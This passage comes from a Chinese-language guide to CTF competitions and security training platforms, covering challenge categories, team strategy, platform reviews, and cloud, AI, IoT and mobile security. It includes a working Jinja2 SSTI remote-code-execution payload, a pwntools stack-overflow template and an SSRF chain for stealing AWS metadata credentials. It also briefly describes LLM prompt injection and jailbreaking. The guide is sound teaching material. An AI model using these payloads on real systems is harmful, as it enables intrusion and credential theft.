| **服务端** | SSRF、文件上传、文件包含、命令注入 | ★★★ | SSRF打内网Redis、.htaccess上传绕过 |
| **认证鉴权** | JWT攻击、OAuth2.0劫持、Session伪造 | ★★★ | JWT算法混淆(alg:none)、Key混淆 |
| **API层** | GraphQL注入、REST API越权、批量赋值 | ★★☆ | IDOR、GraphQL深度查询DoS |

**Web CTF的典型解题思路流程：**



**一个完整的Web CTF解题案例：**

以一道经典的"SSTI + 沙箱逃逸"题目为例，展示完整的解题过程：

```text
题目描述：一个在线简历生成器，用户输入姓名和简介，服务端渲染为PDF。
已知：使用Python，但不知道具体模板引擎。

步骤1：探测模板引擎
输入 {{7*7}} → 回显 49，确认存在SSTI
输入 {{7*'7'}} → 回显 7777777（Jinja2特征）或 49（Twig特征）
→ 回显 7777777，确认是Jinja2

步骤2：确认Python版本和可用类
输入 {{config.__class__.__mro__[1].__subclasses__()}}
→ 获取所有可用的子类列表

步骤3：寻找可用的危险类
在子类列表中寻找 os._wrap_close 或 subprocess.Popen
→ 找到 os._wrap_close 的索引为 132

步骤4：构造RCE payload
{{config.__class__.__mro__[1].__subclasses__()[132].__init__.__globals__['popen']('cat /flag').read()}}

步骤5：获取flag
→ 回显 flag{sst1_j1nj4_t0_rc3_2024}
```

**Web安全CTF的进阶技巧：**
- **WAF绕过**：当输入被过滤时，尝试编码变换（URL编码、Unicode、HTML实体）、大小写混合、注释符分割（`SEL/**/ECT`）
- **二阶漏洞**：先在注册/存储阶段注入恶意数据，在后续的查询/使用阶段触发漏洞
- **竞态条件**：利用并发请求的时间窗口，重复提交或绕过检查

#### 二进制安全（Pwn）

Pwn题目的核心是利用程序中的内存安全漏洞来控制程序执行流程，最终获取shell或读取flag。

**Pwn题目的攻击技术演进路径：**

```text
Level 1：栈溢出基础
├── 覆盖返回地址 → 跳转到目标函数（如win()函数）
├── 覆盖局部变量 → 修改认证标志位
└── Shellcode注入 → 执行任意代码

Level 2：进阶栈利用
├── ROP（Return-Oriented Programming）→ 绕过NX保护
├── Stack Pivot → 控制栈指针到可控区域
└── ret2libc → 调用系统库函数

Level 3：堆利用入门
├── Fastbin Attack → 修改堆管理元数据
├── UAF（Use After Free）→ 释放后重用
├── Double Free → 同一块内存释放两次
└── House of Force → 篡改堆top chunk

Level 4：高级堆利用
├── Tcache Poisoning（glibc 2.26+）
├── House of Orange
├── House of Einherjar
├── IO_FILE结构体利用
└── House of Lore / House of Spirit
```

**Pwn题目必备工具链：**

```python
# pwntools标准解题模板
from pwn import *

# 连接目标
# io = remote("challenge.ctf.com", 1337)  # 远程
io = process("./vuln")  # 本地调试

# 加载二进制文件获取偏移
elf = ELF("./vuln")
libc = ELF("./libc.so.6")

# 自动计算栈溢出偏移
# 使用 cyclic(200) 发送，观察crash时的RIP值
# cyclic_find(0x6161616c) → 获取偏移量
offset = 72  # 例如偏移为72字节

# 构造payload
payload = b"A" * offset
payload += p64(elf.sym['win'])  # 覆盖返回地址到win函数

io.sendline(payload)
io.interactive()
```

**Pwn学习的推荐路线：**
1. 先在OverTheWire Narnia系列学习栈溢出基础
2. 在pwnable.kr的`fd`、`bof`等题目巩固
3. 学习ROP技术（CSAPP第3章是理论基础）
4. 在pwnable.tw挑战heap类题目
5. 最终目标：能独立完成HackTheBox的Pwn类Challenge

#### 逆向工程（Reverse）

逆向工程题目的核心是理解程序的逻辑——通常是一个加密或校验程序，需要逆向其算法来找到正确的输入（即flag）。

**逆向题目的常见套路：**

1. **字符串搜索**：用`strings`命令或IDA的字符串窗口搜索flag相关字符串
2. **关键函数定位**：找到`strcmp`、`memcmp`等比较函数，观察比较的内容
3. **算法识别**：识别常见的加密算法（AES、RC4、DES、自定义异或算法）
4. **去除反调试**：如果程序有反调试保护，需要先绕过（如修改`ptrace`调用的返回值、patch `IsDebuggerPresent`）
5. **去除混淆**：面对代码混淆（如控制流平坦化、虚假分支），需要使用符号执行或动态分析来简化

**逆向工程工具对比：**

| 工具 | 优势 | 劣势 | 适用场景 |
|------|------|------|---------|
| **IDA Pro** | 业界标准，插件生态丰富，反编译质量高 | 收费昂贵（免费版功能受限） | 复杂二进制分析 |
| **Ghidra** | 免费开源，NSA开发，反编译质量不错 | 界面不友好，启动较慢 | 预算有限时的首选 |
| **Binary Ninja** | 现代化UI，API友好，脚本编写方便 | 收费，社区较小 | 自动化分析脚本 |
| **radare2/Cutter** | 命令行工具，轻量级，脚本化方便 | 学习曲线极陡 | 快速分析和脚本化 |
| **x64dbg** | Windows调试器，插件丰富 | 仅限Windows | 动态调试 |

#### 密码学（Crypto）

密码学CTF题目考察对密码算法和协议的理解深度。与直接使用现成工具的Pwn和Web不同，Crypto题目更强调数学推理和算法分析能力。

**Crypto题目的典型攻击场景：**

```text
古典密码类：
├── 凯撒密码 → 暴力枚举25种偏移
├── 维吉尼亚密码 → 频率分析 + Kasiski检验
└── 替换密码 → 频率分析 + 已知明文攻击

RSA攻击类：
├── 小公钥指数攻击（e=3） → 直接开方
├── 共模攻击（相同n不同e） → 扩展欧几里得
├── 因数分解（p和q接近） → Fermat分解
├── Wiener攻击（d太小） → 连分数展开
├── Coppersmith攻击（已知明文高位） → 格基规约
└── Boneh-Durfee攻击（d < n^0.292） → 格基规约

对称加密攻击类：
├── ECB模式攻击 → 分组替换
├── CBC字节翻转攻击 → 修改前一组密文
├── Padding Oracle → 填充验证信息泄露
└── CBC-MAC伪造 → 长度扩展攻击

椭圆曲线攻击类：
├── Smart攻击（异常曲线）
├── MOV攻击（嵌入度小）
├── Pohlig-Hellman（阶光滑）
└── invalid curve attack（曲线参数验证不足）
```

**密码学CTF的必备数学基础：**
- **数论**：模运算、欧几里得算法、中国剩余定理、费马小定理
- **线性代数**：矩阵运算、高斯消元、格基规约（LLL算法）
- **概率论**：生日攻击、随机性分析
- **信息论**：熵的概念、信息泄露度量

#### 杂项（Misc）

Misc是CTF中最具创意性的方向，涵盖隐写术、取证分析、编程题、密码学之外的编码类题目。

**Misc常见子方向：**

- **隐写术（Steganography）**：在图片（LSB隐写）、音频（频谱图）、视频、文档中隐藏信息。常用工具：StegSolve、zsteg、Audacity、binwalk
- **取证分析（Forensics）**：从磁盘镜像、内存dump、网络流量包中提取信息。常用工具：Volatility（内存取证）、Autopsy（磁盘取证）、Wireshark（流量分析）
- **编码与加密**：Base系列编码、自定义编码、多重嵌套编码
- **编程/算法题**：需要编写脚本解决的计算问题，如RSA私钥计算、迷宫求解、图论问题
- **OSINT（开源情报）**：通过公开信息搜索目标，如社交媒体分析、图片EXIF信息提取、域名历史记录查询

**Misc解题的通用方法论：**
1. **文件分析三板斧**：`file`命令识别类型 → `strings`提取可读内容 → `xxd/hexdump`查看十六进制
2. **层层剥洋葱**：很多Misc题是多层编码嵌套（如Base64 → Hex → Rot13 → Base32），需要逐层解码
3. **元数据挖掘**：检查图片EXIF、PDF元数据、文档修订历史中是否隐藏信息

### 2.3 CTF团队协作与比赛策略

一个成熟的CTF战队通常有明确的分工。以5-8人的战队为例：



**赛前准备清单：**

1. **环境检查**：确保Kali/Parrot虚拟机正常运行，网络通畅，VPN连接正常
2. **工具更新**：更新pwntools、Ghidra、Burp Suite到最新版本
3. **通信渠道**：建立即时通信群组（Discord/微信群），准备好共享文档
4. **模板脚本**：准备好exploit模板、Crypto解题模板、Misc自动化脚本
5. **知识库**：整理往期比赛的解题报告，方便快速查阅类似题型
6. **Flag提交机器人**：编写或准备好自动化flag提交脚本，避免手动提交浪费时间

**比赛中的核心策略：**

- **前30分钟的"地毯式扫描"**：快速浏览所有题目，标记难度和方向，形成整体印象
- **"保低争高"原则**：先完成有把握的题目（保证基础分），再挑战困难题目
- **"flag优先"原则**：一道题解出flag后立即提交，不要花时间整理报告（报告赛后写）
- **信息共享纪律**：任何人解出题目或发现关键信息，立即在群组中分享
- **求助阈值**：某道题卡住超过30分钟且无明显进展，应向团队求助或转向其他题目
- **"check-in"机制**：每小时队长召集一次快速同步（2分钟），确认各方向进度

**赛后复盘的重要性：**

比赛结束后，投入同等时间进行复盘比比赛本身更有学习价值：

1. 收集所有Writeup，与自己的解题过程对比
2. 分析"本可以解出但没解出"的题目，找出知识盲区
3. 记录团队协作中的问题（沟通不畅、分工不合理等）
4. 更新个人知识库和模板脚本
5. 将复盘结果分享给全队，形成团队知识沉淀

### 2.4 CTF技能与真实安全工作的映射

CTF经常被质疑"太理想化，和真实工作差距大"。这种质疑部分成立，但需要具体分析：

| CTF技能 | 真实工作映射 | 差异与补充 |
|---------|------------|-----------|
| Web漏洞利用 | Web应用渗透测试 | 真实环境需考虑WAF绕过、业务逻辑、横向移动 |
| Pwn漏洞利用 | 二进制漏洞研究/exploit开发 | CTF程序通常无ASLR/PIE，真实环境保护更强 |
| 逆向分析 | 恶意软件分析、协议逆向 | 真实恶意软件体积更大、混淆更重 |
| 密码学攻击 | 协议安全分析、密码实现审计 | 真实工作更关注实现缺陷而非算法本身 |
| Misc取证 | 数字取证、应急响应 | 真实案件数据量大、合规要求严格 |
| 信息收集 | 渗透测试前期侦察 | CTF信息收集相对简单，真实环境复杂得多 |
| 自动化脚本 | 安全工具开发 | CTF脚本一次性，工具需要长期维护 |

**CTF经历的价值不在于直接搬运技能，而在于培养三种核心能力：**

1. **快速学习能力**：CTF题目经常涉及你不熟悉的技术，你需要在几小时内从零开始学习并应用
2. **问题分解能力**：复杂题目需要分解为多个子问题逐个击破
3. **抗压能力**：比赛的时间压力和竞争压力培养了在紧张环境中高效工作的能力

## 三、实战平台全景分析与使用策略

### 3.1 平台分类与横向对比

全球的网络安全实战平台可以按照学习模式、技术方向和目标受众三个维度进行分类：

| 平台名称 | 学习模式 | 主要方向 | 目标受众 | 费用 | 在线靶机 | 特色功能 |
|---------|---------|---------|---------|------|---------|---------|
| **HackTheBox** | 自主探索 | 全方向 | 中高级 | 免费+订阅 | 有 | 退役机器Writeup、Sherlocks取证 |
| **TryHackMe** | 引导式教学 | 全方向 | 初级-中级 | 免费+订阅 | 有 | 学习路径、内置VPN、房间模式 |
| **PortSwigger Academy** | 交互式实验 | Web安全 | 全级别 | 完全免费 | 有 | 与Burp Suite深度集成 |
| **PentesterLab** | 引导式实验 | Web安全 | 初级-高级 | 订阅制 | 有 | 从Unix基础到高级Web安全 |
| **VulnHub** | 自主下载 | 全方向 | 中级 | 免费 | 本地部署 | 社区贡献靶机、无需注册 |
| **OverTheWire** | 阶梯挑战 | 基础+Web | 初级 | 完全免费 | 有 | Bandit系列经典入门 |
| **pwnable.kr** | 阶梯挑战 | 二进制 | 中级 | 免费 | 有 | 韩国团队维护，质量稳定 |
| **pwnable.tw** | 解题挑战 | 二进制 | 中高级 | 免费 | 有 | 题目质量极高，Writeup丰富 |
| **CryptoHack** | 交互式挑战 | 密码学 | 全级别 | 免费 | 有 | 从基础数学到高级密码学 |
| **CTFHub** | 引导式挑战 | CTF全方向 | 初级-中级 | 免费 | 有 | 中文界面，系统化学习路径 |
| **Root Me** | 解题挑战 | 全方向 | 全级别 | 免费+VIP | 有 | 法国老牌平台，题库丰富 |
| **CyberDefenders** | 蓝队挑战 | 取证分析 | 中级-高级 | 免费 | 有 | 专注蓝队/防御技能 |
| **LetsDefend** | 引导式SOC | 安全运营 | 初级-中级 | 免费+订阅 | 有 | 模拟SOC分析师工作流 |
| **Immersive Labs** | 交互式 | 全方向 | 企业级 | 付费 | 有 | 企业安全培训平台 |

### 3.2 主流平台深度评测

#### HackTheBox——综合能力的试金石

HackTheBox（HTB）是目前全球最活跃的渗透测试练习平台，拥有超过600台退役靶机和持续更新的Active机器。它的定位是**中高级渗透测试练习场**——不提供引导，需要自己探索。

**HTB的核心玩法：**

1. **Active Machines（活跃靶机）**：每周发布新机器，VIP用户可提前访问。活跃机器的flag需要在自己搭建的VPN环境中获取。所有活跃机器最终会"退役"（retire），届时才有官方Writeup。
2. **Retired Machines（退役靶机）**：退役后的机器仍然可以练习，且有丰富的社区Writeup。VIP用户可随时访问所有退役机器。
3. **Challenges（挑战题目）**：独立的CTF风格题目，不涉及完整机器，涵盖Crypto、Web、Pwn等方向。
4. **Sherlocks**：取证分析挑战，模拟安全事件响应场景，需要从日志、流量、内存dump中提取线索。
5. **Pro Labs**：系统化的渗透测试课程（如Active Directory Labs），模拟真实企业网络环境。

**HTB机器的难度评估体系：**

HTB的机器难度由社区投票决定，分为Easy、Medium、Hard、Insane四个等级：

```text
Easy（约占30%）：
├── 1-2个主要漏洞
├── 工具使用为主，少量手工
├── 新手友好，通常有明确的攻击路径
└── 典型耗时：1-3小时（初学者）/ 30分钟（有经验者）

Medium（约占35%）：
├── 需要组合2-3个漏洞
├── 可能需要一定的代码理解能力
├── 需要基本的信息收集和枚举能力
└── 典型耗时：3-6小时（初学者）/ 1-2小时（有经验者）

Hard（约占25%）：
├── 复杂的攻击链，通常需要4-5个步骤
├── 需要理解漏洞原理而非仅使用工具
├── 可能涉及自定义exploit编写
└── 典型耗时：8-20小时（初学者）/ 3-6小时（有经验者）

Insane（约占10%）：
├── 非常规攻击路径，可能需要多个零日或罕见技巧
├── 高度定制化的利用方式
├── 考验创新思维和技术深度
└── 典型耗时：数天甚至数周
```

**HTB的推荐入门路线（10台机器）：**

1. **Lame**（Easy）：经典入门机，Samba漏洞利用，学习基本的枚举和exploit使用
2. **Blue**（Easy）：EternalBlue（MS17-010）漏洞，学习使用Metasploit
3. **Nibbles**（Easy）：Web枚举 + 文件上传，学习信息收集的重要性
4. **Shocker**（Easy）：Shellshock漏洞利用，学习手动利用和GTFOBins
5. **Cronos**（Medium）：SQL注入 + DNS区域传输 + Linux提权
6. **Ninevehth**（Medium）：多服务枚举 + 文件上传 + LFI
7. **Sunday**（Medium）：finger枚举 + SSH爆破 + Sudo提权
8. **RedCross**（Medium）：Web + 内网渗透 + PostgreSQL提权
9. **Flujab**（Hard）：复杂的Web攻击链
10. **Oouch**（Hard）：OAuth2.0漏洞 + Docker逃逸

#### TryHackMe——从零到一的最佳路径

TryHackMe的定位是**引导式学习平台**，特别适合初学者。与HTB的"自己探索"不同，THM的每个"房间"都有详细的引导步骤，告诉你用什么工具、执行什么命令。

**THM的核心功能：**

- **Learning Paths（学习路径）**：预先设计好的课程序列，如"Complete Beginner"、"Jr Penetration Tester"、"Offensive Pentesting"
- **Rooms（房间）**：独立的学习单元，每个房间围绕一个主题（如"SQL Injection"、"Linux PrivEsc"）
- **内置终端和VPN**：无需本地搭建环境，浏览器内即可完成所有操作
- **社区贡献**：用户可以创建和分享自己的房间

**THM推荐学习路径：**



#### PortSwigger Web Security Academy——Web安全的黄金标准

PortSwigger Web Security Academy（PSA）由Burp Suite的开发公司PortSwigger免费提供，是目前Web安全学习质量最高的平台。

**PSA的核心优势：**

1. **完全免费**：所有内容、所有实验全部免费
2. **内容权威**：由Burp Suite的核心开发者编写，技术细节准确
3. **理论+实践结合**：每个漏洞类型都有详细的概念讲解 + 多个交互式实验
4. **难度递进**：每个主题从Apprentice（学徒）→ Practitioner（实践者）→ Expert（专家）
5. **与Burp Suite集成**：实验环境可以直接用Burp Suite进行拦截和修改

**PSA覆盖的完整漏洞类型（截至2025年）：**

- SQL注入（7种变体，30+实验）
- XSS（反射型、存储型、DOM型，40+实验）
- CSRF（跨站请求伪造）
- 点击劫持（Clickjacking）
- DOM漏洞（DOM clobbering、web消息攻击）
- XXE（XML外部实体注入）
- SSRF（服务端请求伪造）
- HTTP请求走私
- OAuth认证漏洞
- JWT攻击
- 服务端模板注入（SSTI）
- 访问控制漏洞
- 信息泄露
- 业务逻辑漏洞
- HTTP Host头攻击
- Web缓存投毒
- WebSockets安全
- CORS配置错误
- GraphQL API攻击
- 文件上传漏洞

### 3.3 学习路径与使用策略

**平台组合使用建议：**

不要把所有时间花在一个平台上。不同平台的优势互补，合理组合能最大化学习效率。

| 学习阶段 | 主平台 | 辅助平台 | 每周时间分配 |
|---------|--------|---------|------------|
| 完全零基础 | TryHackMe Pre Security | OverTheWire Bandit | 主平台80%，辅助20% |
| 有基础但无安全经验 | TryHackMe Complete Beginner | DVWA本地环境 | 主平台70%，辅助30% |
| 掌握基础想进阶 | TryHackMe Jr Pen Tester + PortSwigger Academy | CTFHub | 主平台60%，辅助40% |
| 中级阶段 | HackTheBox Medium + PortSwigger Expert | 专业CTF比赛 | 主平台50%，辅助30%，比赛20% |
| 高级阶段 | HackTheBox Hard/Insane | 漏洞赏金平台 | 靶机40%，实战40%，研究20% |

**高效使用实战平台的七个习惯：**

1. **每道题写解题报告**：不是为别人写，是为自己写。记录每一步的思路和遇到的坑，这比解题本身更有学习价值
2. **限制单题时间**：Easy最多2小时，Medium最多4小时，超过时间先看Hint或Writeup，不要陷入死胡同
3. **先独立后合作**：每道题至少独立尝试30分钟再求助，但也不要一个人苦战超过2小时
4. **定期回顾旧题**：每个月重新做一遍之前做过的题目，看能否更快更优雅地完成
5. **关注底层原理**：不要只记住"用什么工具"，要理解"为什么这个漏洞存在"
6. **建立个人知识库**：用Markdown记录每种漏洞的原理、利用方式、防御方法，逐步形成自己的安全知识体系
7. **保持学习的连续性**：每天30分钟比周末8小时更有效。持续性比单次时长重要得多

## 四、行业前沿与新兴领域

### 4.1 云安全实战平台

随着企业加速上云，云安全已成为安全领域增长最快的方向之一。云安全靶场应运而生，帮助安全人员在安全的环境中学习云平台的攻击与防御技术。

**主流云安全靶场：**

| 靶场名称 | 平台 | 核心学习内容 | GitHub |
|---------|------|------------|--------|
| **AWSGoat** | AWS | S3桶配置错误、IAM权限滥用、Lambda攻击、EC2元数据服务利用 | github.com/ine-labs/AWSGoat |
| **GCPGoat** | GCP | 项目枚举、IAM提权、GCS存储桶利用、云函数攻击 | github.com/ine-labs/GCPGoat |
| **AzureGoat** | Azure | Azure AD攻击、Blob存储利用、Function App漏洞 | github.com/ine-labs/AzureGoat |
| **KubernetesGoat** | K8s | 容器逃逸、RBAC配置错误、Secret管理、网络策略绕过 | github.com/madhuakula/kubernetes-goat |
| **TerraGoat** | 多云 | IaC安全扫描、Terraform配置错误检测 | github.com/bridgecrewio/terragoat |
| **DVCP** | 多云 | 云原生应用漏洞、微服务安全 | 开源社区贡献 |

**云安全的关键攻击面：**

云环境与传统环境的最大区别在于**身份即边界**。在传统网络中，防火墙定义了安全边界；在云环境中，IAM（身份和访问管理）策略定义了安全边界。因此，云安全攻击的核心是身份和权限的滥用。



**云安全的典型攻击链——从SSRF到接管AWS账户：**

```text
1. 发现Web应用存在SSRF漏洞
2. 通过SSRF访问EC2元数据服务 http://169.254.169.254/latest/meta-data/
3. 获取IAM临时凭证（AccessKeyId、SecretAccessKey、Token）
4. 使用aws-cli枚举当前权限
   $ aws sts get-caller-identity
   $ aws iam list-attached-user-policies --user-name webapp-user
5. 发现该账号拥有iam:PassRole + lambda:CreateFunction权限
6. 创建Lambda函数，附加高权限角色，执行反弹shell
7. 获取高权限角色的凭证，横向移动到其他AWS服务
```

**AWS IMDSv2的防御机制：** AWS已引入IMDSv2（Instance Metadata Service v2），要求通过PUT请求获取会话token后才能访问元数据服务，有效缓解了SSRF直接读取元数据的攻击。但在实际环境中，很多AWS账户仍启用了旧版IMDSv1，这是云安全审计的重点检查项。

### 4.2 AI安全实战平台

AI安全是一个迅速崛起的新方向，涵盖对抗性机器学习、大语言模型安全、AI供应链安全等多个子领域。

**AI安全的核心挑战：**

**对抗性攻击（Adversarial Attacks）。** 通过精心构造的输入数据，使AI模型做出错误判断。例如，在图像分类中，对一张猫的照片添加微小的扰动（人眼不可见），就能让模型将其识别为"汽车"。这种攻击在自动驾驶、人脸识别等场景中有严重的安全隐患。

**对抗性攻击的主要类型：**

| 攻击类型 | 目标 | 方法 | 危害场景 |
|---------|------|------|---------|
| **白盒攻击** | 已知模型结构和参数 | FGSM、PGD、C&W | 安全研究、模型评估 |
| **黑盒攻击** | 未知模型内部结构 | 迁移攻击、查询攻击 | 实际攻击场景 |
| **物理世界攻击** | 在现实世界中生效 | 打印对抗样本、光学变换 | 自动驾驶欺骗、人脸识别绕过 |
| **后门攻击** | 在训练数据中植入触发器 | BadNets、Trojan | AI供应链投毒 |

**大语言模型（LLM）安全。** 2023年以来，随着ChatGPT等大模型的广泛应用，LLM安全成为热点：

- **Prompt Injection**：通过精心构造的提示词绕过模型的安全限制。直接注入（用户直接输入恶意提示）和间接注入（在网页/文档中嵌入恶意指令）是两种主要方式
- **Jailbreaking**：使用特殊技巧让模型输出违规内容。常见手法包括角色扮演、多轮对话绕过、编码混淆
- **数据泄露**：通过巧妙的提问让模型泄露训练数据中的隐私信息
- **间接Prompt Injection**：在网页/文档中嵌入恶意指令，当AI助手读取时执行。这是当前LLM应用中最危险的攻击向量之一
- **模型窃取（Model Stealing）**：通过大量查询推断模型的行为和参数

**AI安全学习资源：**

- **Hugging Face安全挑战**：模型安全性评估和对抗性攻击练习
- **OWASP Top 10 for LLM Applications**：LLM应用安全风险清单（2025版已更新）
- **NIST AI Risk Management Framework**：AI风险管理框架
- **MITRE ATLAS**：AI系统威胁矩阵
- **AI Village**：DEF CON上的AI安全社区，提供实战练习
- **Adversarial Robustness Toolbox（ART）**：IBM开源的对抗性鲁棒性工具箱

### 4.3 IoT安全实战平台

IoT（物联网）安全涉及硬件、固件、通信协议和云接口多个层面，攻击面广泛且复杂。

**IoT安全的学习环境搭建：**

```text
硬件层：
├── 逻辑分析仪（Saleae Logic）→ 捕获UART/SPI/I2C通信
├── JTAG/SWD调试器（J-Link、Bus Pirate）→ 固件提取和调试
├── USB转串口适配器（FT232RL）→ 串口通信和shell访问
├── 热风枪 + 编程器（用于芯片读取）→ 硬件级固件提取
└── SDR接收器（RTL-SDR）→ 射频信号分析

固件层：
├── binwalk（固件提取和解包）
├── Firmwalker（自动化分析脚本）
├── Firmware-mod-kit（固件修改工具）
├── Ghidra（固件代码逆向）
└── FirmAE（IoT固件模拟运行）

通信协议层：
├── MQTT客户端（用于分析IoT通信协议）
├── Wireshark + BLE嗅探器（蓝牙分析）
├── SDR（软件定义无线电，分析射频通信）
├── Zigbee嗅探器（Zigbee协议分析）
└── CAN总线分析工具（汽车安全）

在线靶场：
├── IoTGoat（OWASP官方IoT安全靶场）
├── DVID（Damn Vulnerable IoT Device）
├── Embedded Security CTF（嵌入式安全挑战）
└── IoT Village（DEF CON IoT安全社区）
```

**IoT安全的攻击链：**

```text
1. 信息收集：识别设备型号、固件版本、开放端口
2. 固件获取：通过OTA更新包、硬件提取、厂商官网下载
3. 固件分析：解包文件系统、查找硬编码凭证、分析启动流程
4. 通信分析：抓取设备与云端的通信、分析协议和加密方式
5. 漏洞利用：Web管理界面、API接口、协议实现缺陷
6. 持久化：修改固件、植入后门、OTA更新劫持
```

### 4.4 移动安全实战平台

移动安全（Mobile Security）主要关注Android和iOS应用的安全性，包括应用逆向、数据存储安全、通信安全、身份认证安全等方面。

**移动安全学习靶场与工具：**

| 靶场/工具 | 平台 | 类型 | 学习重点 |
|----------|------|------|---------|
| **DIVA** | Android | 靶场 | OWASP Mobile Top 10，34个漏洞点 |
| **InsecureBankv2** | Android | 靶场 | 银行应用安全漏洞，包含后端 |
| **UnCrackable Apps** | Android/iOS | 挑战 | 反调试绕过、密钥提取 |
| **Sieve** | Android | 靶场 | 密码管理器漏洞分析 |
| **Frida** | Android/iOS | 工具 | 动态插桩框架，运行时Hook |
| **Objection** | Android/iOS | 工具 | 基于Frida的移动安全审计工具 |
| **MobSF** | 双平台 | 工具 | 自动化移动应用安全分析 |
| **APKTool** | Android | 工具 | APK反编译和重打包 |
| **Jadx** | Android | 工具 | DEX到Java源码反编译 |

**Android安全测试的标准流程：**

```text
1. 获取APK文件（从设备提取或下载）
2. 静态分析：
   ├── APKTool反编译 → 查看smali代码和资源文件
   ├── Jadx反编译 → 获取Java源码
   ├── 搜索硬编码密钥、API密钥、敏感信息
   ├── 分析AndroidManifest.xml → 查看权限和组件声明
   └── 检查网络安全配置（network_security_config.xml）

3. 动态分析：
   ├── 安装到模拟器/真机
   ├── Frida Hook关键函数（SSL Pinning绕过、加密函数监控）
   ├── Burp Suite拦截HTTPS流量（配合证书固定绕过）
   ├── 检查数据存储安全（SharedPreferences、SQLite明文存储）
   └── 测试组件导出漏洞（Activity、Service、BroadcastReceiver）

4. 漏洞利用：
   ├── 绕过root检测
   ├── 提取加密密钥
   ├── 修改应用逻辑（重打包）
   └── 利用深度链接（Deep Link）漏洞
```

**iOS安全测试的特殊挑战：**
- **越狱需求**：许多安全测试工具需要越狱环境，但现代iOS越狱越来越难
- **代码签名**：iOS应用有严格的代码签名验证，修改后需要重新签名
- **Keychain安全**：iOS的密钥链存储比Android更安全，但仍可能存在配置错误
- **Swift/Objective-C逆向**：Swift代码的逆向难度高于Java/smali

### 4.5 安全运营与蓝队实战

安全运营（Security Operations）是防御侧的核心能力，近年来蓝队/防御方向的实战平台迅速发展。

**蓝队实战平台：**

| 平台 | 核心内容 | 特色 |
|------|---------|------|
| **LetsDefend** | SOC分析师工作流 | 模拟真实SOC环境，从告警研判到事件响应 |
| **CyberDefenders** | 数字取证和蓝队挑战 | 聚焦防御技能，题目来自真实事件 |
| **Blue Team Labs Online** | 蓝队技能练习 | 取证分析、日志分析、恶意软件分析 |
| **RangeForce** | 企业级安全培训 | 模拟真实攻击场景的防御演练 |

**蓝队核心技能矩阵：**

| 技能领域 | 入门要求 | 实战平台 | 学习重点 |
|---------|---------|---------|---------|
| 日志分析 | 基础网络知识 | LetsDefend | SIEM告警研判、日志关联分析 |
| 恶意软件分析 | 逆向基础 | CyberDefenders | 静态分析、动态沙箱、IoC提取 |
| 数字取证 | 操作系统基础 | CyberDefenders/BTLO | 内存取证、磁盘取证、网络取证 |
| 威胁狩猎 | 高级运维 | LetsDefend | 主动威胁搜索、行为分析 |
| 事件响应 | 安全基础知识 | LetsDefend/RangeForce | IR流程、遏制策略、根除措施 |

### 4.6 实战平台的商业化趋势

实战平台的商业化正在加速，主要体现在以下几个方向：

**企业安全培训平台。** 越来越多的企业选择实战平台进行内部安全培训，而不是传统的课堂授课。HackTheBox、TryHackMe等平台都推出了企业版本，提供定制化的学习路径和团队管理功能。

**人才评估与招聘。** 一些平台开始提供技能认证和人才评估服务，帮助企业筛选安全人才。例如，HTB的CPTS（Certified Penetration Testing Specialist）认证、Hack The Box的Job Board功能。

**安全演练与红蓝对抗。** 政府和大型企业开始使用实战平台进行安全演练，模拟真实攻击场景来检验防御能力。这类服务通常按需定制，费用较高。

**商业模式对比：**

| 模式 | 代表平台 | 优势 | 劣势 |
|------|---------|------|------|
| **免费+订阅** | HackTheBox、TryHackMe | 用户基数大，社区活跃 | 免费用户转化率低 |
| **纯订阅制** | PentesterLab | 收入稳定 | 用户获取成本高 |
| **完全免费** | PortSwigger Academy、OverTheWire | 品牌影响力大 | 依赖母公司资助 |
| **认证+培训** | Offensive Security（OSCP） | 高客单价 | 市场竞争激烈 |
| **企业定制** | 各平台企业版 | 利润率高 | 销售周期长 |

## 五、推荐学习资源与工具生态

### 5.1 核心书籍推荐

#### CTF竞赛方向

| 书名 | 作者 | 出版信息 | 核心内容 | 适合人群 |
|------|------|---------|---------|---------|
| 《CTF竞赛权威指南》 | FlappyPig战队 | 电子工业出版社，2020 | Web、Pwn、Reverse、Crypto、Misc五大方向全面覆盖，含大量真题解析 | CTF竞赛入门到进阶 |
| 《从0到1：CTFer成长之路》 | Nu1L战队 | 电子工业出版社，2021 | CTF零基础入门，循序渐进的学习路径 | CTF初学者 |
| 《CTF特训营》 | FlappyPig战队 | 机械工业出版社，2020 | 高级CTF技巧，侧重Pwn和Reverse | 有一定CTF基础的学习者 |

#### 渗透测试方向

| 书名 | 作者 | 出版信息 | 核心内容 | 适合人群 |
|------|------|---------|---------|---------|
| 《Web安全攻防：渗透测试实战指南》 | 徐焱 等 | 电子工业出版社，2017 | Web安全全面实战，从工具使用到漏洞利用 | Web安全入门到中级 |
| 《黑客攻防技术宝典：Web实战篇》 | 吴翰清 | 人民邮电出版社，2014 | 阿里安全专家的深度Web安全分析 | 中高级Web安全 |
| 《Metasploit渗透测试魔鬼训练营》 | 诸葛建伟 等 | 机械工业出版社，2013 | Metasploit框架深度使用，渗透测试全流程 | 渗透测试入门 |
| 《渗透测试实战第三版》（The Hacker Playbook 3） | Peter Kim | 2018 | 实战导向的渗透测试方法论 | 中级渗透测试人员 |

#### 逆向与二进制方向

| 书名 | 作者 | 出版信息 | 核心内容 | 适合人群 |
|------|------|---------|---------|---------|
| 《加密与解密》 | 段钢 | 电子工业出版社，2018（第四版） | 软件保护与逆向分析的"圣经"级教材 | 逆向工程入门到高级 |
| 《逆向工程核心原理》 | 李承远 | 人民邮电出版社，2014 | PE文件结构、调试技术、反调试对抗 | 二进制安全入门 |
| 《深入理解计算机系统》（CSAPP） | Bryant & O'Hallaron | 机械工业出版社 | 计算机系统底层原理，是Pwn学习的理论基础 | 所有安全从业者 |
| 《Hacking: The Art of Exploitation》 | Jon Erickson | No Starch Press, 2008 | exploit开发的经典教材 | 二进制安全进阶 |

#### 密码学方向

| 书名 | 作者 | 出版信息 | 核心内容 | 适合人群 |
|------|------|---------|---------|---------|
| 《深入浅出密码学》 | Christof Paar 等 | 电子工业出版社，2012 | 密码学原理和实践，适合自学者 | 密码学入门 |
| 《应用密码学》 | Bruce Schneier | 机械工业出版社 | 密码学经典教材，涵盖所有主流算法 | 中级密码学 |

### 5.2 在线资源导航

#### CTF赛事与排名

- **CTFtime**（https://ctftime.org/）：全球CTF比赛日历、队伍排名、比赛评分，参加CTF的必备网站
- **CTFHub**（https://www.ctfhub.com/）：中文CTF学习平台，提供系统化的学习路径和挑战题目
- **攻防世界**（https://adworld.xctf.org.cn/）：XCTF系列赛事的配套练习平台

#### 在线学习平台

- **PortSwigger Web Security Academy**（https://portswigger.net/web-security）：Web安全黄金标准，完全免费
